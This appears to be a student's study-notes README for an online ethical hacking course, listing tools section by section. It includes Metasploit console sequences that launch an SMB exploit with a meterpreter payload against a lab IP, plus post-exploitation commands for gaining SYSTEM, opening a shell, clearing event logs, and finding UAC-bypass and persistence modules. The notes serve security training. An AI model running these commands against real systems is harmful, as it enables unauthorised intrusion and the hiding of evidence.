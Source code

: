 # Complete Ethical Hacking Bootcamp 2021: Zero to Mastery

https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery

## Section 4: Reconnaissance & Information Gathering
* ping
* whois
* nslookup
* https://ipinfo.info/
* whatweb
* theHarvester
* hunter.io
* sherlock

## Section 5: Scanning
* metasploitable
* arp
* netdiscover
* nmap

## Section 7: Vulnerability Analysis
* nmap scripts
* google search exploit
* searchsploit
* nessus

## Section 8: Exploitation & Gaining Access
* metasploit framework
  * msfconsole
```
msf6 > show exploits
msf6 > use exploits/windows/smb/ms06_640_netapi
msf6 exploit(windows/smb/ms06_640_netapi) > show info
msf6 exploit(windows/smb/ms06_640_netapi) > show options
msf6 exploit(windows/smb/ms06_640_netapi) > set RHOSTS 192.168.1.26
msf6 exploit(windows/smb/ms06_640_netapi) > show payloads
msf6 exploit(windows/smb/ms06_640_netapi) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms06_640_netapi) > show targets
msf6 exploit(windows/smb/ms06_640_netapi) > set target 3
msf6 exploit(windows/smb/ms06_640_netapi) > exploit
msf6 exploit(windows/smb/ms06_640_netapi) > run
msf6 > search vsftpd
msf6 > sessions
msf6 > sessions -i <id>
```
* netcat
* telnet
* search routersploit

## Section 9: SMBGhost CVE 2020-0796 - Windows 10 Manual Exploitation
* https://rufus.ie/

## Section 10: Gaining Access (Viruses, Trojans, Payloads...)
* Msfvenom
```
$ msfvenom -p ...
$ msfvenom --list encoders
```
* virustotal
* veil
* TheFatRat
* Hexeditor

## Section 11: Post Exploitation - Elevating Privileges, Extracting Data, Running Keyloggers ..
* meterpreter (support both linux and window commands)
```
meterpreter > help
meterpreter > background
meterpreter > guid
meterpreter > getuid
meterpreter > pwd
meterpreter > dir
meterpreter > ls
meterpreter > shell
meterpreter > getsystem
meterpreter > search -f *.jpg
meterpreter > clearev
meterpreter > run post/windows/gather/enum_applications
```
* search bypassuac
```
msf6 > search bypassuac
```
* search persistence
```
msf6 > search persistence
```
